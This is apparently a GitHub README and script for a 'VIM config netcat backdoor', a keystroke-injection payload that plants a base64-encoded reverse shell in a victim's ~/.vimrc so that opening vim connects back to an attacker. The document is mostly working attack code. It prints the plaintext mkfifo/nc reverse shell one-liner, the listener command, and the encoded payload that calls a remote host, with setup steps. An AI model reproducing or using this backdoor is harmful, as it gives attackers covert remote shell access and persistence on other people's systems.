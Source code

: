 # Linux - VIM Config Netcat Backdoor

## Description

A simple backdoor that execute a base64 encoded netcat reverse shell embedded into a VIM Config file. Run VIM execute the reverse shell.

## Requirement

1. First note this script has been created and tested under Kali Linux 2021.2 as target.
2. I used a QWERTZ keyboard to do this ("ch" layout), so you may need to change that.
3. Take the netcat reverse shell of pentest monkey (or whatever) and encode it to base64 using <a href="https://www.base64encode.org/">this site</a>. Then replace the base64 string into the code. I used the netcat reverse shell bellow.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
5. Start a netcat listener in your attack box.
```bash
nc -nvlp 1234
```

NOTE : I suggest to use the website to encode in base64, because trying to do it in zsh terminal on kali truncated the base64 in two line. But of course, you can do it by the way that you want since it work.

## Code

```bash
layout("CH")
typingSpeed(1, 2)
press("CTRL ALT T")
delay(1000)
type("echo '!base64 -d <<< cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1prIDI+JjF8bmMgMTkyLjE2OC4xLjEwMyAxMjM0ID4vdG1wL2Y= | sh' > ~/.vimrc")
press("ENTER")
delay(1000)
type("exit")
delay(1000)
press("ALT F2")
delay(1000)
type("vim wootwoot")
press("ENTER")
```
